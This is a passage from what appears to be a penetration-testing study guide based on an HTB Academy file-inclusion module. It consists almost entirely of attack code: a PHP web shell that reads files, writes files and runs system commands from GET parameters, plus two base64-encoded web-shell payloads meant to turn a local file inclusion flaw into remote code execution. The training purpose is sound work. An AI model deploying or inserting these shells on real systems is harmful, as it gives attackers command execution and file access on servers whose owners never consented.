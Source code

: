 ```php
if(isset($_GET["action"])) {
    switch($_GET["action"]) {
        case "read":
            echo file_get_contents($_GET["file"]);
            break;
        case "write":
            file_put_contents($_GET["file"], $_GET["content"]);
            break;
        case "exec":
            system($_GET["cmd"]);
            break;
    }
}
?>
```

**Base64 Encoded Payloads:**
```bash
# Basic command execution
echo '<?php system($_GET["cmd"]); ?>' | base64
# PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

# File read/write shell
echo '<?php if($_GET["a"]=="r") echo file_get_contents($_GET["f"]); if($_GET["a"]=="w") file_put_contents($_GET["f"],$_GET["c"]); ?>' | base64
# PD9waHAgaWYoJF9HRVRbImEiXT09InIiKSBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCRfR0VUWyJmIl0pOyBpZigkX0dFVFsiYSJdPT0idyIpIGZpbGVfcHV0X2NvbnRlbnRzKCRfR0VUWyJmIl0sJF9HRVRbImMiXSk7ID8+Cg==
```

---

*This guide covers PHP wrapper techniques for achieving RCE through LFI vulnerabilities, based on HTB Academy's File Inclusion module. These methods are essential for escalating LFI to full system compromise.* 